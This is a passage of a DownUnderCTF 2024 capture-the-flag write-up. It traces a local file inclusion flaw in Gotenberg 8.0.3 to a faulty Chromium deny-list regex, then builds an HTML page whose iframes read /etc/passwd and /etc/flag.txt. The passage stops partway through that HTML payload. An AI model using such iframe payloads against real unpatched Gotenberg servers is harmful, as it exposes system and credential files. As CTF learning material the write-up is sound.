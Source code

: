 ```dockerfile
FROM gotenberg/gotenberg:8.0.3
COPY flag.txt /etc/flag.txt
```

We can look into Docker Hub and find the Gotenberg page [here](https://hub.docker.com/r/gotenberg/gotenberg/). Now, we are trying to find a vulnerability. My first thought is to check whether this project has a GitHub repository. And yes, it does: [Gotenberg GitHub](https://github.com/gotenberg/gotenberg). Now, I can go into releases and try to find the release after the one we are dealing with. The release in question is 8.1.0.

![gotenberg 1](./DownUnderCTF2024_assets/gotenberg_1.png)

As we can see, there was a critical security flaw which previously enabled unauthorized read access to the system files of a Gotenberg container. So, we can use the compare feature on GitHub to see which patches were applied: [Compare v8.0.3 to v8.1.0](https://github.com/gotenberg/gotenberg/compare/v8.0.3...v8.1.0)

We can see two critical file changes, one is on `Makefile`:

```
- CHROMIUM_DENY_LIST="^file:///[^tmp].*"
+ CHROMIUM_DENY_LIST=^file:(?!//\/tmp/).*
```

So we can conclude that local file inclusion occurred due to a bad regex on the deny list. The other one is inside `test/testdata/chromium/html/index.html`, where the following code was added:

```html
<div class="page-break-after">
    <h2>/etc/passwd</h2>
    <iframe src="/etc/passwd"></iframe>

    <h2>\\localhost/etc/passwd</h2>
    <iframe src="\\localhost/etc/passwd"></iframe>
</div>
```

Now, we can perform the following steps. We can create a local file `index.html` which will look like this:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dummy HTML</title>
</head>
<body>
    <div class="page-break-after">
    <h2>/etc/passwd</h2>
    <iframe src="/etc/flag.txt"></iframe>

    <h2>\\localhost/etc/passwd</h2>
```